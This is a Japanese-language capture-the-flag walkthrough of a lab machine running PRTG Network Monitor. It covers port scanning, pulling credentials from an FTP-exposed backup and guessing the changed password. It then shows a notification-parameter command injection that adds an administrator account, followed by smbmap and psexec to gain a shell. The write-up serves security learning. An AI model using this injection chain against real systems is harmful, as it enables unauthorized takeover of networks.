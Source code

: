 # 1. Port scan
$ip=10.10.10.152

sudo nmap -sC -sV $ip

![fa9056ae97cc1f4a018989b1ab8758a6.png](../_resources/fa9056ae97cc1f4a018989b1ab8758a6.png)

FTPとアクセス

user.txtをダウンロード

![9c7387e236879f6109fc778958066760.png](../_resources/9c7387e236879f6109fc778958066760.png)

 `cd Paessler`

`cd ./"PRTG Network Monitor"`


nmapで検出したサービス名と同じディレクトリを発見

バックアップデータをダウンロード

![631bd6e0a4b0f01c01dc659089242aaa.png](../_resources/631bd6e0a4b0f01c01dc659089242aaa.png)

バックアップを確認した結果

ファイル内のkcredentialを表示した結果ユーザ名とパスワードを発見

![8dfe2f19e004d2edd065cd7c9bc91caa.png](../_resources/8dfe2f19e004d2edd065cd7c9bc91caa.png)

記載してるユーザ情報でログインを試したが失敗

![d1c0f3386449415d710e8c67f61322f6.png](../_resources/d1c0f3386449415d710e8c67f61322f6.png)

パスワードは PrTg@dmin2018
ではなくPrTg@dmin2019と推測

![2f6b29b3a0646ad3a86c086fafabeb40.png](../_resources/2f6b29b3a0646ad3a86c086fafabeb40.png)

ログイン成功

![53f6aee3f9146c7ff86701b83b2c3013.png](../_resources/53f6aee3f9146c7ff86701b83b2c3013.png)

setup→

Account Settings →

Notifications→

Add new Notification

![94a809760f8a5f772e7cb1af9c5decf9.png](../_resources/94a809760f8a5f772e7cb1af9c5decf9.png)

 program file Demo exe notification – outfile.ps1 

parameterにtest.txt;net user pentestop P3nT3st! /add;net localgroup administrators pentestop /add

username prtgadmin

password PrTg@dmin2018 wonyuuryoku

![cbde80e4a400777524f6e963e918884f.png](../_resources/cbde80e4a400777524f6e963e918884f.png)

作成したNotificationを実行

![bfba5762ac2138df97a5922022fc8968.png](../_resources/bfba5762ac2138df97a5922022fc8968.png)

pentestopユーザを作成


`smbmap -H 10.10.10.152 -u pentestop -p 'P3nT3st!'` 

![1a5ec544d7e4ed8939519bb0567bac9e.png](../_resources/1a5ec544d7e4ed8939519bb0567bac9e.png)

 `python3 psexec.py 'pentestop:P3nT3st!@10.10.10.152'`

![95ee0d18ab01d774214508f076c59022.png](../_resources/95ee0d18ab01d774214508f076c59022.png)

rootを取得

![6a5c94e8da760a84627b33b47e9202c2.png](../_resources/6a5c94e8da760a84627b33b47e9202c2.png)
